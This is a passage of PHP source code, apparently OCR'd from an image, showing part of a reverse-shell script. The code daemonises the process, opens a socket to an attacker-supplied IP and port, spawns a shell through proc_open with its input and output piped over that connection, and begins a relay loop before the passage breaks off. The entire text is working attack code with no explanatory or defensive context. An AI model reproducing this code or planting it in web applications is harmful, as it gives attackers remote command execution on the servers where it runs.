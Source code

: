 ```php
// Make the current process a session leader
// Will only succeed if we forked
if (posix_setsid() == -1) {
  printit("Error: Can't setsid()");
  exit(1);
}

$daemon = 1;
} else {
printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
printit("$errstr ($errno)");
exit(1);
}

// Spawn shell process
$descriptorspec = array(
  0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
  1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
  2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
printit("ERROR: Can't spawn shell");
exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
// Check for end of TCP connection
if (feof($sock)) {
  printit("ERROR: Shell connection terminated");
  break;
}

// Check for end of STDOUT
if (feof($pipes[1])) {
  printit("ERROR: Shell process terminated");
  break;
```